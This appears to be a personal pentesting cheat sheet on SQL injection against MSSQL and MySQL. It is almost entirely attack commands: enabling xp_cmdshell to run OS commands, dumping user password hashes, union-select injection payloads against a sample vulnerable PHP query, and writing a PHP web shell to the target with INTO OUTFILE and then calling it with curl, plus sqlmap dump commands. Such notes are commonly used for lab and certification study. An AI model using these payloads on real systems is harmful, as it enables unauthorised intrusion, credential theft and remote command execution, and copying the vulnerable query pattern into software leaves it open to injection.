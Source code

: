 # SQLi

## MSSQL 

### Basics

#### Connection

User account: `Administrator`
```
kali$ impacket-mssqlclient $SomeUserAccount:$somepass@$TargetIp -windows-auth
```

#### Commands

Known table `master.sys.sysusers`: https://learn.microsoft.com/en-us/sql/relational-databases/system-compatibility-views/sys-sysusers-transact-sql?view=sql-server-ver16
```
SQL> SELECT @@version;
SQL> SELECT name FROM sys.databases;
SQL> SELECT * FROM somedatabasename.information_schema.tables; # tables of the "somedatabasename" db, together with their schema
SQL> SELECT * FROM somedatabasename.someschema.sometablename; # table name of interest: "users"

SQL> select * from master.information_schema.tables;
SQL> select top 2 * from master.dbo.sysusers; # table "sysusers" is an alias /!\; top 2 lines

SQL> EXECUTE sp_configure 'show advanced options', 1;
SQL> RECONFIGURE;
SQL> EXECUTE sp_configure 'xp_cmdshell', 1;
SQL> RECONFIGURE;
SQL> EXECUTE xp_cmdshell 'whoami';
```

## MySQL

### Basics

#### Connection
```
$ mysql -u root -p'rootpassword' -h $DbServerIp -P $DbServerPort
```

#### Commands
```
> select version();
> select system_user();
> show databases;
> use databasetohack;
> select table_name from information_schema.tables;
> select table_name, table_schema from information_schema.tables where table_schema = 'databasetohack';
> select table_name, table_schema from information_schema.tables where table_schema = database(); # current db in use
> select column_name from information_schema.columns where table_name = 'tablenamewithusers' ;

> SELECT user, authentication_string, plugin FROM mysql.user WHERE user = 'usertohack';
```

### Attacks

#### Union select

Vulnerable Php query:
```
$query = "SELECT * from customers WHERE name LIKE '".$_POST["search_input"]."%'";
```

Injection:
```
' order by 1,2,3 -- //
' union select database(), user(), @@version, null, null -- //
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
' union select null, username, password, description, null from users -- //
```

#### Php injection

Php injection in an `input` HTML field:
```
' UNION SELECT "<?php system($_GET['cmd']);?>", null, ..., null INTO OUTFILE "/path/on/target/webshell.php" -- //
```
and trigger the webshell:
```
curl $TargetIp/path/on/target/webshell.php?cmd=ls
```

## Sqlmap

https://sqlmap.org/
 
```
sqlmap -u http://ip/page.php?user=dummy -p user
sqlmap -u http://ip/page.php?user=dummy -p user --dump
```


